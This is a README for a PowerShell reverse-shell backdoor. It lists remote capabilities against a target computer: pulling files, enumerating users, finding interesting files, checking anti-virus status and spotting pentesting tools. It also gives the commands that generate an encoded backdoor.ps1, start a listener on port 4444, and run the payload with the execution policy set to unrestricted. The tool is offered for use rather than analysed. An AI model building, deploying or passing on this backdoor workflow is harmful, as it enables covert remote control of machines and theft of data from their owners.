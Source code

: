 # powershell-backdoor
A Powershell Reverse Backdoor
<br>
![preview](preview.PNG)
<br>
# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed
## To Do 
* Find Writeable Directories
* Get Windows Update Status

# Setup
Don't change the code inside template.ps1, instead run listen.py
```
PS C:\Users\DrewQ\Desktop> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:02cf166bbe6fdf8f3db4d3e6d04e5e2cf8b98a6b
[*] Starting Backdoor Listener 192.168.0.223:4444
```
No arguments are required, backdoor.ps1 will be dropped in the current working directory.

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
